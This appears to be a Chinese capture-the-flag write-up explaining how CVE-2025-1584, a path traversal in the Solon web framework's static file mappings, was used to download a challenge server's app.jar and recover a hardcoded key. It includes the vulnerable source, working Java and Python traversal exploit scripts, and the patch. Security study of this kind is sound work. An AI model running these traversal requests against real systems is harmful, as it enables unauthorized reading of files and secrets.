


# 从ParlooCTF-ezblog看CVE-2025-1584-先知社区

> **来源**: https://xz.aliyun.com/news/18029  
> **文章ID**: 18029

---

### 题目分析

题目名称：ezblog；题目描述：/app  
题目依赖如下：

```
.
├── aio-core-1.5.55.jar
├── aio-pro-1.5.55.jar
├── asm-9.7.1.jar
├── freemarker-2.3.34.jar
├── jansi-2.4.1.jar
├── logback-classic-1.3.15.jar
├── logback-core-1.3.15.jar
├── slf4j-api-2.0.16.jar
├── smart-http-common-2.5.2.jar
├── smart-http-server-2.5.2.jar
├── snack3-3.2.126.jar
├── snakeyaml-2.3.jar
├── solon-3.0.8.jar
├── solon-boot-3.0.8.jar
├── solon-boot-smarthttp-3.0.8.jar
├── solon-config-plus-3.0.8.jar
├── solon-config-yaml-3.0.8.jar
├── solon-data-3.0.8.jar
├── solon-lib-3.0.8.jar
├── solon-logging-3.0.8.jar
├── solon-logging-logback-3.0.8.jar
├── solon-mvc-3.0.8.jar
├── solon-net-3.0.8.jar
├── solon-proxy-3.0.8.jar
├── solon-security-validation-3.0.8.jar
├── solon-security-vault-3.0.8.jar
├── solon-serialization-3.0.8.jar
├── solon-serialization-snack3-3.0.8.jar
├── solon-sessionstate-local-3.0.8.jar
├── solon-view-3.0.8.jar
├── solon-view-freemarker-3.0.8.jar
├── solon-web-3.0.8.jar
├── solon-web-cors-3.0.8.jar
├── solon-web-staticfiles-3.0.8.jar
└── solon.view.freemarker-3.0.8.jar
```

有一个文件中存在路由：

```
import org.noear.solon.annotation.Controller;
import org.noear.solon.annotation.Mapping;
import org.noear.solon.annotation.Param;
import org.noear.solon.core.handle.ModelAndView;

@Controller
public class dashboard {
  public static final String realkey = "********";
  
  @Mapping("/")
  public Object index() {
    ModelAndView vm = new ModelAndView("index.ftl");
    return vm;
  }
  
  @Mapping("/dashboard")
  public Object dashboard() {
    ModelAndView vm = new ModelAndView("dashboard.ftl");
    return vm;
  }
  
  @Mapping("/backdoor")
  public String backdoor(@Param("key") String key) {
    if ("********".equals(key)) {
      String flag = System.getenv("FLAG");
      return "flag is " + flag;
    } 
    return "you are god";
  }
}
```

可以看到，存在一个backdoor路由，可以去getFlag，但是key的值是不知道的。

### CVE-2025-1584

关于这个漏洞的描述如下：

> A vulnerability classified as problematic was found in opensolon Solon up to 3.0.8. This vulnerability affects unknown code of the file solon-projects/solon-web/solon-web-staticfiles/src/main/java/org/noear/solon/web/staticfiles/StaticMappings.java. The manipulation leads to path traversal: '../filedir'. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. Upgrading to version 3.0.9 is able to address this issue. The name of the patch is f46e47fd1f8455b9467d7ead3cdb0509115b2ef1. It is recommended to upgrade the affected component.

显然，题目中的这个solon的版本是符合的。然而，网上并没有披露相关漏洞利用的描述，我们根据给出的漏洞信息自己去审计一下。  
`StaticMappings`

```
package org.noear.solon.web.staticfiles;

import java.net.URL;
import java.util.Map;
import java.util.concurrent.ConcurrentHashMap;

/**
 * 
 *
 * @author noear
 * @since 1.0
 * */
public class StaticMappings {
    static final Map<StaticRepository, StaticLocation> locationMap = new ConcurrentHashMap<>();

    /**
     * 
     */
    public static int count() {
        return locationMap.size();
    }

    /**
     * 
     *
     * @param pathPrefix 
     * @param repository 
     */
    public static void add(String pathPrefix, StaticRepository repository) {
        addDo(pathPrefix, repository, false);
    }

    protected static void addDo(String pathPrefix, StaticRepository repository, boolean repositoryIncPrefix) {
        if (pathPrefix.startsWith("/") == false) {
            pathPrefix = "/" + pathPrefix;
        }

        //1.2.protected

        locationMap.putIfAbsent(repository, new StaticLocation(pathPrefix, repository, repositoryIncPrefix));
    }

    /**
     * 
     */
    public static void remove(StaticRepository repository) {
        locationMap.remove(repository);
    }

    /**
     * 
     */
    public static URL find(String path) throws Exception {
        URL rst = null;

        for (StaticLocation m : locationMap.values()) {
            if (path.startsWith(m.pathPrefix)) {
                if (m.repositoryIncPrefix) {
                    //path = /demo/file.htm
                    //relativePath = demo/file.htm 
                    rst = m.repository.find(path.substring(1));
                } else {
                    //path = /demo/file.htm
                    //relativePath = demo/file.htm 
                    if (m.pathPrefixAsFile) {
                        //
                        int idx = m.pathPrefix.lastIndexOf("/");
                        rst = m.repository.find(m.pathPrefix.substring(idx + 1));
                    } else {
                        //
                        rst = m.repository.find(path.substring(m.pathPrefix.length()));
                    }
                }

                if (rst != null) {
                    return rst;
                }
            }
        }

        return rst;
    }
}
```

这里可以非常明显的看出存在路径穿越的洞。想要进入if分支必须要满足`path.startsWith(m.pathPrefix)`这一条件，而这个`m.mathPrefix`是由`add`方法的第一个参数指定的。  
我们翻回来看源程序`App`：

```
@SolonMain  
public class App {  
  public static void main(String[] args) {  
    Solon.start(com.example.demo.App.class, args, app -> StaticMappings.add("/assets/", (StaticRepository)new FileStaticRepository("/app/assets")));  
  }  
}
```

那么此时的`assets`就是`m.pathPrefix`。尝试构建路径穿越的exp：  
  
成功读取了css文件，但是尝试直接读取环境变量失败，猜测是用`www-data`运行的程序。写脚本直接读取jar文件。

```
package org.example;

import cn.hutool.http.HttpUtil;
import java.net.Proxy;
import java.net.InetSocketAddress;
import java.io.File;

public class Main {
    public static void main(String[] args) {
        Proxy proxy = new Proxy(Proxy.Type.HTTP, new InetSocketAddress("127.0.0.1", 8080));
        String url = "http://challenge.qsnctf.com:30626/assets/../../../app/app.jar";

        File file = new File("app.jar");

        HttpUtil.createGet(url)
                .setProxy(proxy)
                .execute()
                .writeBody(file);  // 将响应体写入文件

        System.out.println("文件已保存到: " + file.getAbsolutePath());
    }
}
```

然后反编译并读取key即可。

### 遇到的一个有趣的问题

最开始我是用python写的exp，但是没打通。

```
import requests

url = "http://challenge.qsnctf.com:30626/assets/../../../app/app.jar"
proxy = {"http":"http://localhost:8080"}
r = requests.get(url=url, proxies=proxy)
print(r.status_code)
print(r.text)
with open("app.jar", "wb") as f:
    f.write(r.content)
```

抓包发现了问题：  
  
Python的`requests`库内部在构造请求时，会使用`urllib3`，而后者又依赖Python标准库`urllib.parse`。在处理URL时，`urllib.parse.urljoin`和相关方法会自动对路径中的`..`做规范化解析。  
`urljoin`方法如下：

```
def urljoin(base, url, allow_fragments=True):  
    """Join a base URL and a possibly relative URL to form an absolute  
    interpretation of the latter."""    if not base:  
        return url  
    if not url:  
        return base  
  
    base, url, _coerce_result = _coerce_args(base, url)  
    bscheme, bnetloc, bpath, bparams, bquery, bfragment = \  
            urlparse(base, '', allow_fragments)  
    scheme, netloc, path, params, query, fragment = \  
            urlparse(url, bscheme, allow_fragments)  
  
    if scheme != bscheme or scheme not in uses_relative:  
        return _coerce_result(url)  
    if scheme in uses_netloc:  
        if netloc:  
            return _coerce_result(urlunparse((scheme, netloc, path,  
                                              params, query, fragment)))  
        netloc = bnetloc  
  
    if not path and not params:  
        path = bpath  
        params = bparams  
        if not query:  
            query = bquery  
        return _coerce_result(urlunparse((scheme, netloc, path,  
                                          params, query, fragment)))  
  
    base_parts = bpath.split('/')  
    if base_parts[-1] != '':  
        # the last item is not a directory, so will not be taken into account  
        # in resolving the relative path        del base_parts[-1]  
  
    # for rfc3986, ignore all base path should the first character be root.  
    if path[:1] == '/':  
        segments = path.split('/')  
    else:  
        segments = base_parts + path.split('/')  
        # filter out elements that would cause redundant slashes on re-joining  
        # the resolved_path        segments[1:-1] = filter(None, segments[1:-1])  
  
    resolved_path = []  
  
    for seg in segments:  
        if seg == '..':  
            try:  
                resolved_path.pop()  
            except IndexError:  
                # ignore any .. segments that would otherwise cause an IndexError  
                # when popped from resolved_path if resolving for rfc3986                pass  
        elif seg == '.':  
            continue  
        else:  
            resolved_path.append(seg)  
  
    if segments[-1] in ('.', '..'):  
        # do some post-processing here. if the last segment was a relative dir,  
        # then we need to append the trailing '/'        resolved_path.append('')  
  
    return _coerce_result(urlunparse((scheme, netloc, '/'.join(  
        resolved_path) or '/', params, query, fragment)))
```

### 修复

这个漏洞持续到`Solon-3.0.8`，在之后对其进行了修复,直接添加了waf来进行防护。

```
if (path.contains("/../") == false)
```

<https://github.com/opensolon/solon/commit/f46e47fd1f8455b9467d7ead3cdb0509115b2ef1>
